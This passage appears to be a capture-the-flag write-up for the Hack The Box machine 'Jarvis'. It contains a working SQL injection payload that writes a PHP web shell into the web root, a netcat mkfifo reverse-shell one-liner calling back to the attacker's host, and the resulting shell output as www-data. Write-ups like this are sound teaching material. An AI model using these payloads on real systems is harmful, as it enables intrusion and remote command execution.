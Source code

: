 ### 9) Write a web shell

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,"<?php echo shell_exec($_REQUEST['cmd']);?>",NULL INTO OUTFILE '/var/www/html/r0kit.php';# 
```

![](/assets/images/htb-jarvis/jarvis-sql-injection-write-webshell-web-root.png)

#### Test the web shell

![](/assets/images/htb-jarvis/jarvis-sql-injection-test-webshell.png)


Finally, I executed a netcat reverse shell by invoking the web shell with the following URL encoded command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f
```

The HTTP request line looked like this: `http://10.10.10.143/r0kit.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.10.14.19%202001%20%3E/tmp/f`.
Back on my Kali machine, I was presented a reverse shell as the `www-data` user:

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48492.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
